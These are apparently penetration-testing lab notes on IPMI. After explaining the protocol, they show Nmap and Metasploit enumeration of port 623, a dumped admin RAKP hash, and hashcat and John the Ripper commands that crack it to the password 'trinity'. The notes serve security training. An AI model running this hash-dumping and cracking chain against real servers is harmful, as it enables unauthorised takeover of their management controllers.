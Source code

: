 # IPMI

### &#x20;IPMI is typically used in three ways:

* Before the OS has booted to modify BIOS settings
* When the host is fully powered down
* Access to a host after a system failure

The IPMI protocol was first published by Intel in 1998 and is now supported by over 200 system vendors, including Cisco, Dell, HP, Supermicro, Intel, and more. Systems using IPMI version 2.0 can be administered via serial over LAN, giving sysadmins the ability to view serial console output in band.

### To function, IPMI requires the following components:

* Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
* Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
* Intelligent Platform Management Bus (IPMB) - extends the BMC
* IPMI Memory - stores things such as the system event log, repository store data, and more
* Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

&#x20;Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol.&#x20;

Below is a sample Nmap scan using the Nmap [ipmi-version](https://nmap.org/nsedoc/scripts/ipmi-version.html) NSE script to footprint the service.

```
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

**Metasploit Version Scan**

```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.202.5
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
```

```
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts 10.129.202.5
run
```

```
[+] 10.129.202.5:623 - IPMI - Hash found: admin:7695808482000000bff21a6dc73c0720231565b2d2f1f7cd44912deef8eec08457c691efcde9f73ea123456789abcdefa123456789abcdef140561646d696e:235d2268c59c623daf0482a681afc35b3e821d0e
put the hash inside a file
```

```
hashcat -m 7300 HASH_admin.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

```
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> ls
[*] exec: ls

Desktop  HASH_admin.txt  install.sh  JOHN_FILE.txt  odat  oracle-instantclient-sqlplus_19.6.0.0.0-0parrot2_amd64.deb  Templates
[msf](Jobs:0 Agents:0) auxiliary(scanner/ipmi/ipmi_dumphashes) >> john JOHN_FILE.txt
[*] exec: john JOHN_FILE.txt

Created directory: /home/htb-ac-51753/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 32 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
trinity          (10.129.202.5 admin)
trinity          (10.129.202.5 admin)
trinity          (10.129.202.5 admin)
3g 0:00:00:10 DONE 2/3 (2024-01-12 22:05) 0.2955g/s 16331p/s 42160c/s 42160C/s 123456..9brooklyn
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
